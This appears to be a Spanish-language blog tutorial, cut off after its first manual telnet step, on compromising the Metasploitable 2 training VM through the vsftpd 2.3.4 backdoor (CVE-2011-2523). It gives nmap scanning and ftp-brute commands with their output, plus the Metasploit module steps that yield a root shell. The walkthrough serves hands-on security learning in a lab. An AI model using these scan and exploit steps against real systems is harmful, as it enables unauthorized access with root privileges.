 ```yaml
---
layout: post
title: Metasploitable 2, Atacando el puerto 21 VSFTPD 2.3.4
category: Hacking
comments: true
description: Metasploitable 2, es una maquina virtual vulnerable creada por la empresa Rapid7 (la de Metasploit), para que la gente que esta empezando con el hacking pueda aprender tranquilamente.  En este articulo explotaremos con Metasploit una vulnerabilidad que habia en un servidor de FTP, el VSFTP, que durante un corto periodo de tiempo tuvo una puerta trasera o backdoor. 
tags:       

    - metasploitable2
    - metasploit
---
```


Metasploitable 2, es una maquina virtual vulnerable creada por la empresa Rapid7 (la de Metasploit), para que la gente que esta empezando con el hacking pueda aprender tranquilamente.  En este articulo explotaremos con Metasploit una vulnerabilidad que habia en un servidor de FTP, el VSFTP,que durante un corto periodo de tiempo tuvo una puerta trasera o backdoor. 

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Fase reconocimiento

Lo primero que necesitamos hacer es saber que puertos estan abiertos en la maquina de Metasploitable, esto lo podemos saber usando NMAP

{% highlight sql linenos %}

 nmap -sS -p- -T5 192.168.1.41

{% endhighlight %}

En los parametros de NMAP le he dicho que me diga todos puertos que tiene abiertos la maquina 192.168.1.41 y a maxima velocidad, si necesitas ayuda con NMAP puedes ver los articulos de este blog [sobre NMAP](http://www.h1rd.com/tags/nmap.html)

El resultado es el siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}


Con el resultado que nos da Nmap, ya sabemos que el puerto 21 esta abierto, asi que empezaremos con el. ahora para saber que programa hay funcionando como servidor ftp tenemos tres maneras:

* Manera manual, mediante telnet vemos que programa esta detras del puerto 21.

{% highlight sql linenos %}

telnet 192.168.1.42 21

{% endhighlight %}

El resultado sera el siguiente:

{% highlight sql linenos %}

Trying 192.168.1.41...
Connected to 192.168.1.41.
Escape character is '^]'.
220 (vsFTPd 2.3.4)

{% endhighlight %}

* Manera automatica, mediante el parametro sV de Nmap

{% highlight sql linenos %}

nmap -sT -sV -p 21 -T5 192.168.1.41

{% endhighlight %}

NMAP nos devuelve lo siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds


{% endhighlight %}


* La ultima opcion es usar los scripts de Nmap para poder saber lo maximo sobre este puerto

{% highlight sql linenos %}

nmap -sT --script ftp* -p 21 -T5 192.168.1.41


{% endhighlight %}

NMAP nos devuelve lo siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00031s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 1093 guesses in 182 seconds, average tps: 5.8
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  OSVDB:73573  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       http://osvdb.org/73573
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
MAC Address: 00:0C:29:D3:5F:CD (VMware)


{% endhighlight %}

De esta manera, Nmap nos dice no solo la version vsFTPd 2.3.4 sino que es explotable, y la vulnerabilidad CVE-2011-2523.


## Fase Explotación

Ahora a empezar lo divPantalla de inicio de Metasploitertido, para la fase de explotación usare Metasploit, ya que el uso para esta vulnerabilidad en particular es muy facil.

Desde metasploit buscamos todo lo relacionado con vsFTPd, a ver que hay:

{% highlight sql linenos %}

search vsftpd

{% endhighlight %}

El resultado de la busqueda nos devuelve que tenemos un exploit para la version 2.3.4 justamente la version que esta corriendo nuestro servidor FTP, asi que vamos a usarla:

{% highlight sql linenos %}

use exploit/unix/ftp/vsftpd_234_backdoor 

{% endhighlight %}

Ahora ya solo falta poner la ip de la maquina objetivo, mediante Set RHOST 192.168.1.41 y darle al comando run, y __TACHAN!!__  ya tenemos acceso a la maquina objetivo, con privilegios de root.

<figure>
<img alt="Acceso root a la maquina objetivo después de usar el exploit" class="img img-responsive" src="/resources/images/exploit-vsftpd.png"/>
<figcaption>
Acceso root a la maquina objetivo después de usar el exploit
</figcaption>
</figure>

## Curiosidad....

Lo primero que hice al ejecutar la maquina virtual de Mestasploitable 2, fue lanzar un scan de Nessus y me salieron ciertas vulnerabilidades, lo deje apartado, y hoy mientras escribia empece a recordar que el resultado del scan en ningun momento hablo de este backdoor en vsftpd, puede que sea un error mio de configuración o uso de Nessus o que directamente Nessus lo haya pasado por alto, en cualquier caso o Nessus no es solo install y click, o Tampoco se puede dejar a Nessus el peso de toda una auditoria. Simplemente me parece curioso una vulnerabilidad del 2011 donde se puede conseguir acceso root, no aparezca en el listado de vulnerabilidades criticas, altas o medias.

<figure>
<img alt="Los resultados que da Nessus donde no aparece la vulnerabilidad de vsftpd" class="img img-responsive" src="/resources/images/nessus.png"/>
<figcaption>
Los resultados que da Nessus donde no aparece la vulnerabilidad de vsftpd
</figcaption>
</figure>

Esto es debido a que hay que modificar la politica de configuración por defecto de Nessus, espero explicar esta modificación más adelante.

## Explotación manual 

Esta vulnerabilidad es un backdoor que se introdujo deliveradamente en el codigo fuente de la aplicación, por lo que lo sus creadores introdujeron una manera manual para entrar, esta funciona de la siguiente manera:

* Nos conectamos al puerto 21 con telnet

{% highlight sql linenos %}

telnet 192.168.1.41 21

{% endhighlight %}









